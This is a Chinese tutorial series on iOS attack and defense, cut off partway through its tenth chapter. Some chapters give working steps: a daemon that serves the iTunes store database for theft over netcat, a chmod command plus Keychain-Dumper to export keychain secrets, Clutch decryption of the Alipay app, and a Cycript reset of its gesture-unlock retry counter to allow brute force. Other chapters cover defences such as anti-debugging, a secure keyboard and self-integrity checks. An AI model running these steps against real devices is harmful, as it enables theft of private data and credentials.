# iOS安全攻防


# 目录


* [iOS安全攻防（一）：Hack必备的命令与工具](#markdown-af01)

* [iOS安全攻防（二）：后台daemon非法窃取用户iTunesstore信息](#markdown-af02)

* [iOS安全攻防（三）：使用Reveal分析他人app](#markdown-af03)

* [iOS安全攻防（四）：阻止GDB依附](#markdown-af04)
* [iOS安全攻防（五）：使用Cycript修改支付宝app运行时](#markdown-af05)
* [iOS安全攻防（六）：使用class-dump-z分析支付宝app](#markdown-af06)
* [iOS安全攻防（七）：Hack实战——解除支付宝app手势解锁错误次数限制](#markdown-af07) 
* [iOS安全攻防（八）：键盘缓存与安全键盘](#markdown-af08) 
* [iOS安全攻防（九）：使用Keychain-Dumper导出keychain数据](#markdown-af09) 
* [iOS安全攻防（十）：二进制和资源文件自检](#markdown-af10) 
* [iOS安全攻防（十一）：Hack实战——探究支付宝app手势密码](#markdown-af11) 
* [iOS安全攻防（十二）：iOS7的动态库注入](#markdown-af12) 
* [iOS安全攻防（十三）：数据擦除](#markdown-af13) 
* [iOS安全攻防（十四）：Hack实战——支付宝app手势密码校验欺骗](#markdown-af14) 
* [iOS安全攻防（十五）：使用iNalyzer分析应用程序](#markdown-af15) 
* [iOS安全攻防（十六）：使用introspy追踪分析应用程序](#markdown-af16)
* [iOS安全攻防（十七）：Fishhook](#markdown-af17)
* [iOS安全攻防（十九）：基于脚本实现动态库注入](#markdown-af19)
* [iOS安全攻防（二十）：越狱检测的攻与防](#markdown-af20)
* [iOS安全攻防（二十二）：static和被裁的符号表](#markdown-af22)
* [iOS安全攻防（二十三）：Objective-C代码混淆](#markdown-af23)
* [iOS安全攻防（二十四）：敏感逻辑的保护方案](#markdown-af24)


### <a name="markdown-af01"></a>iOS安全攻防（一）：Hack必备的命令与工具


你的应用正在被其他对手反向工程、跟踪和操作！你的应用是否依旧裸奔豪不防御？
 
郑重声明一下，懂得如何攻击才会懂得如何防御，一切都是为了之后的防御作准备。废话少说，进入正题。
 
今天总结一下为hack而做的准备工作。
 
常用的命令和工具
ps 	        ——显示进程状态，CPU使用率，内存使用情况等

sysctl       ——检查设定Kernel配置

netstat     ——显示网络连接，路由表，接口状态等

route        ——路由修改

renice       ——调整程序运行的优先级

ifconfig    ——查看网络配置

tcpdump   ——截获分析网络数据包

lsof           ——列出当前系统打开的文件列表，别忘记一切皆文件，包括网络连接、硬件等

otool ①     ——查看程序依赖哪些动态库信息，反编代码段……等等等等

nm ②        ——显示符号表

ldid ③      ——签名工具

gdb          ——调试工具

patch       ——补丁工具

SSH         ——远程控制
 
备注：
① otool，可查看可执行程序都链接了那些库：

`
otool  -L WQAlbum 
 `
 
可以得到：
WQAlbum:
	/System/Library/Frameworks/StoreKit.framework/StoreKit (compatibility version 1.0.0, current version 1.0.0)
	/System/Library/Frameworks/AdSupport.framework/AdSupport (compatibility version 1.0.0, current version 1.0.0)
	/usr/lib/libz.1.dylib (compatibility version 1.0.0, current version 1.2.5)
	/System/Library/Frameworks//MediaPlayer.framework/MediaPlayer (compatibility version 1.0.0, current version 1.0.0)
	/System/Library/Frameworks/MobileCoreServices.framework/MobileCoreServices (compatibility version 1.0.0, current version 40.0.0)
	/System/Library/Frameworks/CoreMedia.framework/CoreMedia (compatibility version 1.0.0, current version 1.0.0)
……
 
可以反编译WQAlbum的__TEXT__段内容, 截前10行：

`
otool -tV WQAlbum |head -n 10 
` 
 
 
可以得到：
WQAlbum:
(__TEXT,__text) section
start:
00002de0	pushl	$0x00
00002de2	movl	%esp,%ebp
00002de4	andl	$0xf0,%esp
00002de7	subl	$0x10,%esp
00002dea	movl	0x04(%ebp),%ebx
……
 
② nm，显示程序符号表，用我自己的应用程序私人相册现身说法一下：

`
nm -g WQAlbum  （ -g 代表 global） 
 `
 
可以得到：
001e5eec S _OBJC_IVAR_$_WQPhotoViewController.albumObject
001e5efc S _OBJC_IVAR_$_WQPhotoViewController.int_current
001e5f00 S _OBJC_IVAR_$_WQPhotoViewController.int_total
 
其中，WQPhotoViewController为类名，albumObject为该类的成员
 
③ ldid，是iPhoneOS.platform提供的签名工具，我们自己编译的程序需要签上名才能跑在iPhone/iPad上，使用方法

`export CODESIGN_ALLOCATE=/Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/usr/bin/codesign_allocate
`

`
ldid -S helloworld 
`
 
编译Hello world
 
1.首先找到编译器：
arm-apple-darwin10-llvm-gcc-4.2 就是了。
 
为了方便起见，可以在.bashrc或者profile 配置下环境变量，方便编译。
 
2.找到SDK 
编译我们自己的程序的时候需要指定该目录下的SDK。
 
3.来个经典Hello world ：

    #include <stdio.h>                                                                                              
    int main(){   
           printf("Hello world !!!\n");   
           return 0;   
    }   

 
4.编译
 
其中 -isysroot用来指定build时的SDK
 
5.校验 
 
file查看一下类型，没问题。
 
6.SCP给iPhone、iPad
前提是，设备已经越狱并且安装了SSH,且必须在同一网段。

`
$scp helloworld root@x.x.x.x:hello world
 `
 
7.登录设备签名

```
$ssh -l root x.x.x.x
#ldid -S helloworld
```
 
8.执行程序

```
#./helloworld
```
Hello world !!!
 
运行成功，这就完成了最简单的手动执行自己的应用程序。
 
### <a name="markdown-af02"></a>iOS安全攻防（二）：后台daemon非法窃取用户iTunesstore信息


> 本人郑重声明：并不鼓励窃取用户隐私等行为，一切hack学习都只是为了研究如何防御。OK，进入正题。
 
#### 开机自启动
 
在iOS安全攻防（一）：Hack必备的命令与工具中，介绍了如何编译自己的C程序并手动启动。今天介绍如何使程序变为开机自启动。
 
1.首先打开Xcode创建一个plist属性文件，如下图所示：
 
其中要注意一下通信服务名，我定为55。用编辑器打开，即为：

    <?xml version="1.0" encoding="UTF-8"?>   
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">   
    <plist version="1.0">   
    <dict>   
        <key>Program</key>   
        <string>/usr/bin/ncdemo</string>   
        <key>StandardErrorPath</key>   
        <string>/dev/null</string>   
        <key>SessionCreate</key>   
        <true/>   
        <key>ProgramArguments</key>   
        <array>   
            <string>/usr/bin/ncdemo</string>   
        </array>   
        <key>inetdCompatibility</key>   
        <dict>   
            <key>Wait</key>   
            <false/>   
        </dict>   
        <key>Sockets</key>   
        <dict>   
            <key>Listeners</key>   
            <dict>   
                <key>SockServiceName</key>   
                <string>55</string>   
            </dict>   
        </dict>   
    </dict>   
    </plist>   

 
最后，将plist文件 scp 至 root@192.168.1.114:/System/Library/LaunchDaemons/ 下 .

编写读取iTunesstore数据库程序
读取itunesstored2.sqlitedb信息，并输出到stdout中，便于我们读取。

    #include <stdio.h>   
    #include <fcntl.h>   
    #include <stdlib.h>   
       
    #define FILE "/var/mobile/Library/com.apple.itunesstored/itunesstored2.sqlitedb"   
       
    int main(){   
        int fd = open(FILE, O_RDONLY);   
        char buf[128];   
        int ret = 0;   
           
        if(fd < 0)   
            return -1;   
        while (( ret = read(fd, buf, sizeof(buf))) > 0){   
            write( fileno(stdout), buf, ret);   
        }   
        close(fd);   
        return 0;   
    }   

 编译、拷贝、签名
1.编译方法上篇文章已经介绍清楚，这里不再重复，直接￥%￥＃%￥……%＃ 生成运行在ARM的 ncdemo 
 
2.将ncdemo scp 到设备中，并登录

```
$ scp ncdemo root@192.168.1.114:ncdemo
$ ssh root@192.168.1.114
```
 
3.签名

```
#ldid -S ncdemo
#mv ncdemo /usr/bin
```

抓取 iTunesstore 数据信息
这时，我们只需要利用netcat，指定之前定义的服务名称，轻松在本地抓取设备 iTunesstore 信息.

```
$ nc 192.168.1.114 55 > itunesstored2.sqlitedb
```
 
分析 iTunesstore 数据信息
好吧，这里就介绍个最简单的应用，利用string命令查看：

```
$ strings itunesstored2.sqlitedb 
```
 
于是乎，我们就清晰的得到了iPhone /iPad 设备上都安装了哪些app ：


### <a name="markdown-af03"></a>iOS安全攻防（三）：使用Reveal分析他人app


####准备工作

1）已越狱的设备，并且已安装了OpenSSH,MobileSubstrate等实用工具(Cydia源里安装)

2）本地已安装了Reveal

 

####操作步骤

1）拷贝framework和dylib到越狱机

scp -r /Applications/Reveal.app/Contents/SharedSupport/iOS-Libraries/Reveal.framework root@192.168.0.X:/System/Library/Frameworks

scp /Applications/Reveal.app/Contents/SharedSupport/iOS-Libraries/libReveal.dylib root@192.168.0.X:/Library/MobileSubstrate/DynamicLibraries

 

2）编辑libReveal.plist

a.可以ssh登录到越狱机上，并且越狱机已安装了编辑器工具例如nano，在/Library/MobileSubstrate/DynamicLibraries/下创建文件libReveal.plist，指定app的Bundle，可以指定多个

    {    
        Filter = {   
             Bundles = ("com.apple.AppStore");    
        };    
    }   

 b.也可以在本地创建好libReveal.plist在scp到指定位置/Library/MobileSubstrate/DynamicLibraries/下

 

3）重启越狱机

a.执行 killall SpringBoard

b.也可以重启设备

然后就可以到Reveal看看别人的app怎么布局的了，苹果的appstore：


### <a name="markdown-af04"></a>iOS安全攻防（四）：阻止GDB依附

GDB是大多数hackers的首选，阻止GDB依附到应用的常规办法是：

```
    #import <sys/ptrace.h>  
      
    int main(int argc, charchar *argv[])  
    {  
    #ifndef DEBUG  
        ptrace(PT_DENY_ATTACH,0,0,0);  
    #endif  
        @autoreleasepool {  
            return UIApplicationMain(argc, argv, nil, NSStringFromClass([WQMainPageAppDelegate class]));  
        }  
    }  
```


但遗憾的是，iPhone真实的运行环境是没有sys/ptrace.h抛出的。虽然 ptrace 方法没有被抛出, 但是不用担心，我们可以通过dlopen拿到它。

dlopen： 当path 参数为0是,他会自动查找 $LD_LIBRARY_PATH,$DYLD_LIBRARY_PATH, $DYLD_FALLBACK_LIBRARY_PATH 和 当前工作目录中的动态链接库. 


```
    #import <dlfcn.h>  
    #import <sys/types.h>  
      
    typedef int (*ptrace_ptr_t)(int _request, pid_t _pid, caddr_t _addr, int _data);  
    #if !defined(PT_DENY_ATTACH)  
    #define PT_DENY_ATTACH 31  
    #endif  // !defined(PT_DENY_ATTACH)  
      
    void disable_gdb() {  
        void* handle = dlopen(0, RTLD_GLOBAL | RTLD_NOW);  
        ptrace_ptr_t ptrace_ptr = dlsym(handle, "ptrace");  
        ptrace_ptr(PT_DENY_ATTACH, 0, 0, 0);  
        dlclose(handle);  
    }  
      
    int main(int argc, charchar *argv[])  
    {  
    #ifndef DEBUG  
        disable_gdb();  
    #endif  
        @autoreleasepool {  
            return UIApplicationMain(argc, argv, nil, NSStringFromClass([WQMainPageAppDelegate class]));  
        }  
    }  
```

### <a name="markdown-af05"></a>iOS安全攻防（五）：使用Cycript修改支付宝app运行时

Cycript: Objective-JavaScript ，它懂Objective-C，也懂javascript。

 

我们能够借助Cycript使用Objective-C或者javascript ，给某个正在运行的进程的runtime发送消息。

 

本文以修改支付宝app界面为例，介绍Cycript的使用方法。

 

1）安装Cycript

到Cycript官方网站下载资源工具，然后推进已越狱的iPhone中，进行安装：

```

    dpkg -i cycript_0.9.461_iphoneos-arm.deb   
    dpkg -i libffi_1-3.0.10-5_iphoneos-arm.deb
    
```   


2）确定支付宝进程

运行支付宝app，然后获取它的进程号

```
    Primer:/ root# ps aux | grep Portal   
       
    mobile     479   0.6  4.3   590776  44956   ??  Ss    5:14PM   0:09.58 /var/mobile/Applications/8723004E-9E54-4B37-856D-86292780E958/Portal.app/Portal   
    root       497   0.0  0.0   329252    176 s000  R+    5:21PM   0:00.00 grep Portal   

```


3）Cycript钩住支付宝进程


```

Primer:/ root# cycript -p 479   
cy# 


```

4）获取当前界面的viewController并修改背景色


```
    cy# var app = [UIApplication sharedApplication]   
    @"<DFApplication: 0x16530660>"   
       
    cy# app.delegate   
    @"<DFClientDelegate: 0x165384d0>"   
       
    cy# var keyWindow = app.keyWindow   
    @"<UIWindow: 0x1654abb0; frame = (0 0; 320 568); gestureRecognizers = <NSArray: 0x1654b190>; layer = <UIWindowLayer: 0x1654ace0>>"   
       
    cy# var rootController = keyWindow.rootViewController   
    @"<DFNavigationController: 0x1654b6c0>"   
       
    cy# var visibleController = rootController.visibleViewController   
    @"<ALPLauncherController: 0x166acfb0>"   
       
    cy# visibleController.childViewControllers   
    @["<HPHomeWidgetGroup: 0x166afbc0>","<ADWRootViewController: 0x165745c0>","<ALPAssetsRootViewController: 0x16577250>","<SWSecurityWidgetGroup: 0x166bd940>"]   
       
    cy# var assetsController = new Instance(0x16577250)   
    @"<ALPAssetsRootViewController: 0x16577250>"   
       
    cy# assetsController.view.backgroundColor = [UIColor blueColor]   
    @"UIDeviceRGBColorSpace 0 0 1 1"   
   
   

```


 当然，只是修改个背景色好没意思……   
 
 
### <a name="markdown-af06"></a>iOS安全攻防（六）：使用class-dump-z分析支付宝app

为了了解支付宝app的源码结构，我们可以使用class-dump-z工具来分析支付宝二进制。

 

1.下载配置class_dump_z

前往 https://code.google.com/p/networkpx/wiki/class_dump_z ，下载tar包，然后解压配置到本地环境

    $ tar -zxvf class-dump-z_0.2a.tar.gz   
    $ sudo cp mac_x86/class-dump-z /usr/bin/   

 

2.class_dump支付宝app

    $ class-dump-z Portal > Portal-dump.txt   
       
    @protocol XXEncryptedProtocol_10764b0   
    -(?)XXEncryptedMethod_d109df;   
    -(?)XXEncryptedMethod_d109d3;   
    -(?)XXEncryptedMethod_d109c7;   
    -(?)XXEncryptedMethod_d109bf;   
    -(?)XXEncryptedMethod_d109b8;   
    -(?)XXEncryptedMethod_d109a4;   
    -(?)XXEncryptedMethod_d10990;   
    -(?)XXEncryptedMethod_d1097f;   
    -(?)XXEncryptedMethod_d10970;   
    -(?)XXEncryptedMethod_d10968;   
    -(?)XXEncryptedMethod_d10941;   
    -(?)XXEncryptedMethod_d10925;   
    -(?)XXEncryptedMethod_d10914;   
    -(?)XXEncryptedMethod_d1090f;   
    -(?)XXEncryptedMethod_d1090a;   
    -(?)XXEncryptedMethod_d10904;   
    -(?)XXEncryptedMethod_d108f9;   
    -(?)XXEncryptedMethod_d108f4;   
    -(?)XXEncryptedMethod_d108eb;   
    @optional   
    -(?)XXEncryptedMethod_d109eb;   
    @end   

查看得到的信息是加过密的，这个加密操作是苹果在部署到app store时做的，所以我们还需要做一步解密操作。

 

3.使用Clutch解密支付宝app

1）下载Clutch

iOS7越狱后的Cydia源里已经下载不到Clutch了，但是我们可以从网上下载好推进iPhone

地址：Clutch传送门

 

2）查看可解密的应用列表

    root# ./Clutch    
       
    Clutch-1.3.2   
    usage: ./Clutch [flags] [application name] [...]   
    Applications available: 9P_RetinaWallpapers breadtrip Chiizu CodecademyiPhone FisheyeFree food GirlsCamera IMDb InstaDaily InstaTextFree iOne ItsMe3 linecamera Moldiv MPCamera MYXJ NewsBoard Photo Blur Photo Editor PhotoWonder POCO相机 Portal QQPicShow smashbandits Spark tripcamera Tuding_vITC_01 wantu WaterMarkCamera WeiBo Weibo     

 

3）解密支付宝app

    root# ./Clutch Portal   
       
    Clutch-1.3.2   
    Cracking Portal...   
    Creating working directory...   
    Performing initial analysis...   
    Performing cracking preflight...   
    dumping binary: analyzing load commands   
    dumping binary: obtaining ptrace handle   
    dumping binary: forking to begin tracing   
    dumping binary: successfully forked   
    dumping binary: obtaining mach port   
    dumping binary: preparing code resign   
    dumping binary: preparing to dump   
    dumping binary: ASLR enabled, identifying dump location dynamically   
    dumping binary: performing dump   
    dumping binary: patched cryptid   
    dumping binary: writing new checksum   
    Censoring iTunesMetadata.plist...   
    Packaging IPA file...   
       
    compression level: 0   
        /var/root/Documents/Cracked/支付宝钱包-v8.0.0-(Clutch-1.3.2).ipa   
       
    elapsed time: 7473ms   
       
    Applications Cracked:    
    Portal   
       
    Applications that Failed:   
       
    Total Success: 1 Total Failed: 0   

 

4）导出已解密的支付宝app

从上一步骤得知，已解密的ipa位置为：/var/root/Documents/Cracked/支付宝钱包-v8.0.0-(Clutch-1.3.2).ipa

将其拷贝到本地去分析

 

4.class_dump已解密的支付宝app

解压.ipa后，到 支付宝钱包-v8.0.0-(Clutch-1.3.2)/Payload/Portal.app 目录下，class_dump已解密的二进制文件

    $ class-dump-z Portal > ~/Portal-classdump.txt   

这回就可以得到对应的信息了：

    @protocol ALPNumPwdInputViewDelegate <NSObject>   
    -(void)onPasswordDidChange:(id)onPassword;   
    @end   
       
    @protocol ALPContactBaseTableViewCellDelegate <NSObject>   
    -(void)shareClicked:(id)clicked sender:(id)sender;   
    @end   
       
    @interface MMPPayWayViewController : XXUnknownSuperclass <SubChannelSelectDelegate, UITableViewDataSource, UITableViewDelegate, CellDelegate, UIAlertViewDelegate> {   
    @private   
        Item* channelSelected;   
        BOOL _bCheck;   
        BOOL _bOpenMiniPay;   
        BOOL _bNeedPwd;   
        BOOL _bSimplePwd;   
        BOOL _bAutopayon;   
        BOOL _bHasSub;   
        BOOL _bFirstChannel;   
        BOOL _bChangeSub;   
        BOOL _bClickBack;   
        UITableView* _channelListTableView;   
        NSMutableArray* _channelListArray;   
        NSMutableArray* _subChanneSelectedlList;   
        NSMutableArray* _unCheckArray;   
        UIButton* _saveButton;   
        UILabel* _tipLabel;   
        MMPPasswordSwichView* _payWaySwitch;   
        MMPPopupAlertView* _alertView;   
        UIView* _setView;   
        int _originalSelectedRow;   
        int _currentSelectedRow;   
        NSString* _statusCode;   
        ChannelListModel* _defaultChannelList;   
    }   
    @property(assign, nonatomic) BOOL bClickBack;   
    @property(retain, nonatomic) ChannelListModel* defaultChannelList;   
    @property(retain, nonatomic) NSString* statusCode;   
    @property(assign, nonatomic) int currentSelectedRow;   
    @property(assign, nonatomic) int originalSelectedRow;   
    @property(retain, nonatomic) UIView* setView;   
    @property(retain, nonatomic) MMPPopupAlertView* alertView;   
    @property(retain, nonatomic) MMPPasswordSwichView* payWaySwitch;   
    @property(assign, nonatomic, getter=isSubChannelChanged) BOOL bChangeSub;   
    @property(assign, nonatomic) BOOL bFirstChannel;   
    @property(assign, nonatomic) BOOL bHasSub;   
    @property(assign, nonatomic) BOOL bAutopayon;   
    @property(assign, nonatomic) BOOL bSimplePwd;   
    @property(assign, nonatomic) BOOL bNeedPwd;   
    @property(assign, nonatomic) BOOL bOpenMiniPay;   
    @property(assign, nonatomic) BOOL bCheck;   
    @property(retain, nonatomic) UILabel* tipLabel;   
    @property(retain, nonatomic) UIButton* saveButton;   
    @property(retain, nonatomic) NSMutableArray* unCheckArray;   
    @property(retain, nonatomic) NSMutableArray* subChanneSelectedlList;   
    @property(retain, nonatomic) NSMutableArray* channelListArray;   
    @property(retain, nonatomic) UITableView* channelListTableView;   
    -(void).cxx_destruct;   
    -(void)subChannelDidSelected:(id)subChannel;   
    -(void)switchCheckButtonClicked:(id)clicked;   
    -(void)checkboxButtonClicked:(id)clicked;   
    -(void)onCellClick:(id)click;   
    -(void)showSubChannels;   
    -(void)tableView:(id)view didSelectRowAtIndexPath:(id)indexPath;   
    -(id)tableView:(id)view cellForRowAtIndexPath:(id)indexPath;   
    -(int)tableView:(id)view numberOfRowsInSection:(int)section;   
    -(float)tableView:(id)view heightForRowAtIndexPath:(id)indexPath;   
    -(int)numberOfSectionsInTableView:(id)tableView;   
    -(void)setTableViewFootView:(id)view;   
    -(void)setTableViewHeaderView:(id)view;   
    -(id)tableView:(id)view viewForHeaderInSection:(int)section;   
    -(id)tableView:(id)view viewForFooterInSection:(int)section;   
    -(float)tableView:(id)view heightForHeaderInSection:(int)section;   
    -(float)tableView:(id)view heightForFooterInSection:(int)section;   
    -(void)alertView:(id)view clickedButtonAtIndex:(int)index;   
    -(void)clickSave;   
    -(void)netWorkRequestWithPwd:(id)pwd;   
    -(void)setPayWaySwitchStates:(id)states;   
    -(void)changePayWaySwitch:(id)aSwitch;   
    -(void)scrollToSelectedRow;   
    -(void)didReceiveMemoryWarning;   
    -(void)viewDidLoad;   
    -(void)applicationEnterBackground:(id)background;   
    -(void)dealloc;   
    -(void)goBack;   
    -(BOOL)isChannelsSetChanged;   
    -(id)subChannelCode:(int)code;   
    -(id)subChannelDesc:(int)desc;   
    -(id)initWithDefaultData:(id)defaultData;   
    -(id)initWithNibName:(id)nibName bundle:(id)bundle;   
    -(void)commonInit:(id)init;   
    @end   

5.分析支付宝源码片段

1）使用了@private关键字限制成员访问权限

但是实际上，在Objective-C编程中，使用@private连Keypath访问都拦不住的

 

2）抛出了冗长的成员对象

这非常有利分析程序结构

 

6.进一步思考

1）如何利用 class-dump 结果，结合 cycript 进行攻击呢？

2）class-dump-z 如此强大，有什么方法可以减少暴露的信息吗？

### <a name="markdown-af07"></a>Hack实战——解除支付宝app手势解锁错误次数限制


之前仅仅介绍了工具的使用，本文将实践一下如何利用 cycript 结合 class-dump 结果hack，还要牺牲一下支付宝app。

 

首先，老套路，取到手势解锁界面的View Controller:

    cy# var app = [UIApplication sharedApplication]   
    @"<DFApplication: 0x1666c960>"   
    cy# var keyWindow = app.keyWindow   
    @"<UIWindow: 0x16591bd0; frame = (0 0; 320 568); gestureRecognizers = <NSArray: 0x1b047000>; layer = <UIWindowLayer: 0x165d0650>>"   
    cy# var root = keyWindow.rootViewController   
    @"<UINavigationController: 0x179779a0>"   
    cy# var visible = root.visibleViewController   
    @"<GestureUnlockViewController: 0x165de090>"   

 然后，对照class-dump-z结果，来分析 GestureUnlockViewController 有什么利用价值 ：

    @interface GestureUnlockViewController : DTViewController <UIAlertViewDelegate, GestureHeadImageViewDelegate> {   
    @private   
        GestureHeadImageView* _headImageView;   
        GestureTipLabel* _tipLabel;   
        GestureInputView* _inputView;   
        DTButton* _forgetButton;   
        DTButton* _changeAccountButton;   
        int _retryCount;   
        UIView* _guideView;   
        id<GestrueViewControllerDelegate> _delegate;   
    }   
    @property(assign, nonatomic) __weak id<GestrueViewControllerDelegate> delegate;   
    -(void).cxx_destruct;   
    -(BOOL)shouldAutorotateToInterfaceOrientation:(int)interfaceOrientation;   
    -(void)headClicked;   
    -(void)gestureInputView:(id)view didFinishWithPassword:(id)password;   
    -(void)gestureInputViewFirstEffectiveTouch:(id)touch;   
    -(void)alertView:(id)view clickedButtonAtIndex:(int)index;   
    -(void)actionChangeAccountToLogin;   
    -(void)actionResetPswBtnClick;   
    -(void)resetCurrentUser;   
    -(void)resetPsw;   
    -(void)viewWillDisappear:(BOOL)view;   
    -(void)notifyFaceToFacePayReceivedData:(id)facePayReceivedData;   
    -(void)viewWillAppear:(BOOL)view;   
    -(void)breakFirstRun;   
    -(BOOL)isFirstRun;   
    -(void)guideViewClicked:(id)clicked;   
    -(void)viewDidLoad;   
    -(void)viewWillLayoutSubviews;   
    @end   

 目测 _tipLabel 是写账户名和提示操作的label，上篇文章我提到过：@private限制不了keyPath，现在我们来修改一下支付宝登录页的用户名信息：

    cy# [visible setValue:@"Test By yiyaaixuexi" forKeyPath:@"_tipLabel.text"]   


支付宝手势密码解锁有尝试次数限制，连续错5次就要重新登录。


 

我想解除重试解锁次数的限制，发现了记录解锁次数的类型是int，int _retryCount ，这一点让我很不开心，因为我无法通过KVC来修改其值了。

 

但是没有关系，我可以通过指针访问：

    cy# visible->_retryCount = 0   
    0   

 

这样我就能无限制的用程序暴力破解手势密码了，来计算一下有多少种可能呢？

这个数字对我来说有点大，可是对iPhone5的CPU来说就是小菜一碟了～

 

等一下，密码格式是什么呢？

    -(void)gestureInputView:(id)view didFinishWithPassword:(id)password;   

id类型的密码，很严谨，又给hack带来不少麻烦呀～
 
 
### <a name="markdown-af08"></a>iOS安全攻防（八）：键盘缓存与安全键盘


大部分中文应用弹出的默认键盘是简体中文输入法键盘，在输入用户名和密码的时候，如果使用简体中文输入法键盘，输入英文字符和数字字符的用户名和密码时，会自动启动系统输入法自动更正提示，然后用户的输入记录会被缓存下来。

 

系统键盘缓存最方便拿到的就是利用系统输入法自动更正的字符串输入记录。

缓存文件的地址是：/private/var/mobile/Library/Keyboard/dynamic-text.dat

 

导出该缓存文件，查看内容，欣喜的发现一切输入记录都是明文存储的。因为系统不会把所有的用户输入记录都当作密码等敏感信息来处理。

 

一般情况下，一个常规iPhone用户的dynamic-text.dat文件，高频率出现的字符串就是用户名和密码。

 

所以，一般银行客户端app输入密码时都不使用系统键盘，而使用自己定制的键盘，原因主要有2个：

1）避免第三方读取系统键盘缓存

2）防止屏幕录制 （自己定制的键盘按键不加按下效果）

 

那么，如何实现自定义安全键盘呢？大致思路如下：

1）首先捕获系统键盘的弹出、收回通知

2）创建一个更高级别的window挡住系统键盘

3）需要抛出一个 id<UITextInput>textInput 的弱引用切换焦点

 

下面给出一个简单的安全键盘模型：

    @interface WQSafeKeyboard : UIWindow   
       
    @property (nonatomic, weak, setter = focusOnTextFiled:) UITextField *textFiled;   
    + (WQSafeKeyboard *)deploySafeKeyboard;   
    @end   
       
       
    @interface WQSafeKeyboard()   
       
    @property (nonatomic, strong)WQInterKeyboard *keyboard;   
    @end   
       
    @implementation WQSafeKeyboard   
       
    + (WQSafeKeyboard *)deploySafeKeyboard   
    {   
        WQSafeKeyboard *kb = [[WQSafeKeyboard alloc]init];   
        [kb addObserver];   
        return kb;   
    }   
       
    - (instancetype)init   
    {   
        if (self = [super init]) {   
            self.windowLevel = UIWindowLevelAlert;   
            self.frame = CGRectZero;   
            self.rootViewController = self.keyboard;   
        }   
        return self;   
    }   
       
    - (void)dealloc   
    {   
        [[NSNotificationCenter defaultCenter] removeObserver:self];   
    }   
       
    - (WQInterKeyboard *)keyboard   
    {   
        if (!_keyboard) {   
            _keyboard = [[WQInterKeyboard alloc]init];   
        }   
        return _keyboard;   
    }   
       
    - (void)focusOnTextFiled:(UITextField *)textFiled   
    {   
        _textFiled = textFiled;   
        self.keyboard.textField = _textFiled;   
    }   
       
    - (void)addObserver   
    {   
        [[NSNotificationCenter defaultCenter]addObserver:self   
                                                selector:@selector(keyboardWillShow:)   
                                                    name:UIKeyboardWillShowNotification   
                                                  object:nil];   
        [[NSNotificationCenter defaultCenter]addObserver:self   
                                                selector:@selector(keyboardWillHide:)   
                                                    name:UIKeyboardWillHideNotification   
                                                  object:nil];   
    }   
       
    - (void)keyboardWillShow:(NSNotification *)notification   
    {   
        if (![self.textFiled isFirstResponder]) {   
            return;   
        }   
        [self keyboardAnimationWithNotification:notification];   
    }   
       
    - (void)keyboardWillHide:(NSNotification *)notification   
    {   
        if (![self.textFiled isFirstResponder]) {   
            return;   
        }   
        [self keyboardAnimationWithNotification:notification];   
    }   
       
    - (void)keyboardAnimationWithNotification:(NSNotification *)notification   
    {   
        [self makeKeyAndVisible];   
        NSDictionary *userInfo = [notification userInfo];   
        CGRect kbFrame_end,kbFrame_begin;   
        NSTimeInterval animationDuration;   
        UIViewAnimationCurve animationCurve;   
        [userInfo[UIKeyboardFrameEndUserInfoKey] getValue:&kbFrame_end];   
        [userInfo[UIKeyboardFrameBeginUserInfoKey] getValue:&kbFrame_begin];   
        [userInfo[UIKeyboardAnimationCurveUserInfoKey] getValue:&animationCurve];   
        [userInfo[UIKeyboardAnimationDurationUserInfoKey] getValue:&animationDuration];   
           
        self.frame = [self resizeFrameToAdjust:kbFrame_begin];   
        [UIView animateWithDuration:animationDuration   
                              delay:0   
                            options:(animationCurve<<16)   
                         animations:^{   
                             self.frame = [self resizeFrameToAdjust:kbFrame_end];   
                         }completion:^(BOOL finished) {   
                               
                         }];   
        if ([notification.name isEqualToString:UIKeyboardWillHideNotification]) {   
            [self resignKeyWindow];   
        }   
    }   
       
    - (CGRect)resizeFrameToAdjust:(CGRect)frame   
    {   
        if ([[UIApplication sharedApplication] isStatusBarHidden] )   
            return frame;   
           
        if (SYSTEM_VERSION_LESS_THAN(@"7.0")) {   
            frame = CGRectMake(frame.origin.x,   
                               frame.origin.y - STATUSBAR_HEIGHT,   
                               frame.size.width,   
                               frame.size.height);   
        }   
        return frame;   
    }   
       
    @end   


### <a name="markdown-af09"></a>iOS安全攻防（九）：使用Keychain-Dumper导出keychain数据


iOS系统及第三方应用都会使用Keychain来作为数据持久化存储媒介，或者应用间数据共享的渠道。

 

所以Keychain数据库是hacker们最关注的数据源头之一。

 

不知道是算幸运还是不幸，导出Keychain数据库数据的工具早已非常完善，下载地址：Keychain-Dumper传送门

 

操作步骤极其简单：

1）赋予Keychain数据库可读权限

Primer:~ root# cd /private/var/Keychains/  

Primer:/private/var/Keychains root# ls  

TrustStore.sqlite3  accountStatus.plist  caissuercache.sqlite3  keychain-2.db  keychain-2.db-shm  keychain-2.db-wal  ocspcache.sqlite3  ocspcache.sqlite3-shm  ocspcache.sqlite3-wal  

Primer:/private/var/Keychains root# chmod +r keychain-2.db  

 

2）使用Keychain-Dumper导出Keychain

Primer:/private/var/Keychains root# /your_path/keychain_dumper > keychain-export.txt  

 

然后拷贝到本地查看，到底iOS系统和第三方应用都存放了哪些信息，就一览无余了。

### <a name="markdown-af10"></a>iOS安全攻防（十）：二进制和资源文件自检


我们把自己的程序发布到app store，但是不能保证每一个用户都是从app store下载官方app，也不能保证每一个用户都不越狱。

 

换句话说，我们无法保证程序运行环境在MAC管控策略下就绝对的安全。

 

所以，在有些情况下，尤其是和钱有关系的app，我们有必要在和服务器通信时，让服务器知道客户端到底是不是官方正版的app。

 

何以判断自己是不是正版app呢？hackers们破解你的app，无非就2个地方可以动，1个是二进制，1个是资源文件。

 

二进制都重新编译过了自然肯定是盗版……

 

有些低级的hackers喜欢修改人家的资源文件然后贴上自己的广告，或者给用户错误的指引……修改资源文件是不需要重新编译二进制的。

 

因此，我们有必要在敏感的请求报文中，增加正版应用的二进制和资源文件的标识，让服务器知道，此请求是否来自正版的未经修改的app。

 

在沙盒中，我们可以读到自己程序的二进制，也可以读到资源文件签名文件，这两个文件都不算大，我们可以对其取md5值然后以某种组合算法得到一个标记字符串，然后发给服务器。

 

我封装了相关文件的读取地址

    @implementation WQPathUtilities   
       
    + (NSString *)directory:(NSSearchPathDirectory)dir   
    {   
        NSArray *paths = NSSearchPathForDirectoriesInDomains(dir, NSUserDomainMask, YES);   
